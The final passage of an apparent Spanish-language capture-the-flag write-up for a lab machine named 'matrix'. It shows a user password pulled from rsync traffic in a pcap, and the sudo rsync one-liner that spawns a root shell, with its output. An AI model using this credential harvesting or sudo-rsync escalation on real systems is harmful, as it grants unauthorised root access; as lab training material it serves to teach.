-rwx------ 1 smith smith   66 ene 28 23:45 .selected_editor
drwx------ 2 smith smith 4096 ene 29 14:09 .ssh
-rw-r--r-- 1 smith smith   33 ene 29 01:15 user.txt
smith@matrix:~$ cat user.txt 
13.....................6
```

Esta `sudo` instalado y la contraseña de smith esta filtrada en el trafico rsync del pcap del principio.

```bash
$ strings trinity.pcap | grep -A 3 -B 3 smith
 ....
--
matrix
morpheus
matrix
RSYNC COMMAND: rsync --daemon /home/smith/file.txt 192.168.2.100:/backup/smith/
PASSWORD: kT8020e136Z2YLJa2fEZ
OK: File transferred successfully
RSYNC COMMAND: rsync --daemon /home/john/file.txt 192.168.2.100:/backup/john/
--
 ....
```

También lo podemos ver con wireshark.

```bash
smith@matrix:~$ sudo -l
[sudo] contraseña para smith: 
Matching Defaults entries for smith on matrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User smith may run the following commands on matrix:
    (ALL) PASSWD: /usr/bin/rsync
```

Podemos ejecutar rsync como el usuario root, gracias a gtfobins encontramos esta forma de escalar a root.



Lo ejecutamos y obtenemos shell como root y leemos la flag.

```bash
smith@matrix:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) grupos=0(root)
# whoami
root
# cat /root/root.txt
5XXXXXXXXXXXXXXXXXa
# 
```

Esto es todo.

Espero que os haya gustado, que hayáis aprendido algo o, como mínimo, que hayáis pasado un buen rato resolviendo el misterio de entrar en "la mente" de Matrix. 😉
